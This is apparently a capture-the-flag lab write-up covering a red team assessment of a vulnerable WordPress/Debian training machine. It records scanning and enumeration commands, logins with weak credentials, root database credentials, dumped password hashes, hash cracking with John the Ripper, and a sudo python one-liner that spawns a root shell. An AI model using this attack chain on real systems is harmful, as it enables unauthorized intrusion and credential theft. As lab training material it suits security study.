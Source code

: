 **Red Team Assessment (Target 1)**

**1. Scanning**

1. Run An Initial Nmap Scan

Command: nmap -sT -A -p- -Pn -T4 --reason -oA host-1-scan 192.168.1.110

![Red_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/11faf0063d4b45308141a63a12eb9bca.png)

**2. Enumeration**

2.1 Enumerating SSH (Port 22)

2.1.1 Enumerating The SSH Package Version

![Red_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/de827ed25c3341b899612c7fcd239975.png)

2.1.2 Enumerating The SSH Key Fingerprint

![Red_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/76888bde077946a9a4686513c17b309e.png)

2.2 Enumerating HTTP (Port 80)

2.2.1 Enumerating Hidden Subdirectories

Command: dirb http://192.168.1.110

![Red_4.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/c0ee8a91870f4e17b0569c7859107c3e.png)

2.2.2 Enumerating Wordpress Files And Version

Command: wpscan --url http://192.168.1.110/wordpress

![Red_8.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/a495f3387dfc45aa824344bdb1fcb1ef.png)

2.2.3 Enumerating Wordpress Users

Command: wpscan [http://192.168.1.110/wordpress/](http://192.168.1.110) --enumerate u

![Red_9.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/90315a92b0bf451ea8e6ccad57c13a2c.png)

2.3 Enumerating NetBIOS (Port 139)

2.3.1 Enumerating The NetBIOS Hostname

Command: nbtscan 192.168.1.110

![Red_5.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/f2dab635295a43e391a71cc863b3aa18.png)

2.4 Enumerating SMB (Port 445)

2.4.1 Enumerating SMB Shares

![Red_6.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/4503e3b2521b49d29e7bde803285e47d.png)

Enumeration Summary

1. Target OS - Linux (Debian)

2. SSH Version - Open SSH 6.7

3. Wordpress Version - Wordpress 4.8.18

4. Wordpress Users - Michael, Steven

5. NetBios Hostname - TARGET1

6. SMB Version - Samba 4.2.14

**3. Exploitation**

3.1 Log Into The Machine Using The Weak Credentials For The User Michael

Credentials - michael:michael

![Red_10.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/cc9a3ad16229476b899021a3afa113b9.png)

**Flag 1**

Location: /var/www/html

![Flag_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/e44ca6edc19b4a50b67088fb788acfb2.png)

**Flag 2**

Location: /var/www

![Flag_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/ec75782c607844e38fce6d7e09594d93.png)

3.2 Enumerate The Apache Web Root

Web Root: /var/www/html

![Flag_4.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/c34bd380a43a4ae8a42f1724cbb9b79f.png)

3.3 Enumerate The Configuration File

![Flag_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/c6ac828335fa49ccbfc6b741c7ec0fc7.png)

Credentials Found - root:R@v3nSecurity

3.4 Connect To The MySQL Database

Command: mysql -uroot -pR@v3nSecurity

![MySQL_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/a95ed68307494f59b9983beea29c21d1.png)

3.5 Enumerate The Wordpress Database

![MySQL_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/d2aaa38436664b3ab253f6599d3eb0d5.png)

Hashes Found:

michael:$P$BjRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0

steven:$P$BkJVD9jsxx/loJoqNsURgHiaB23j7W/

**Flag 3**

Location: Wordpress Database -> Wordpress Posts Table

![Flag_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/649cb8d04c7f4f57a2159641c08a8c75.png)

3.6 Crack Stevens Password Hash Using John The Ripper

Command: john --wordlist /usr/share/wordlists/rockyou.txt hashes.txt

![John_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/8afab7a6979746e48178477bbc3a7cbf.png)

Credentials Found - steven:pink84

3.7 Log Into The Machine Using The Found Credentials

![John_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/8727e03a5d6947bf846804225ccadf6b.png)

**4. Local Enumeration**

4.1 Check Sudo Privileges On The Machine

Command: sudo -l

![John_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/b796820f0ce04d47aaef0cf3d1d4b161.png)

4.2 Check GTFO Bins For A Python Sudo Exploit

![John_4.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/568ce1b832cb4118902596f3d73ca30a.png)

**5. Privilege Escalation**

5.1 Spawn The System Shell As the Root User

Command: sudo python -c 'import os; os.system("/bin/sh")'

![Root_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/7c1ce811b923431ea44a28c86d3e8a2b.png)

**Flag 4**

Location: /root
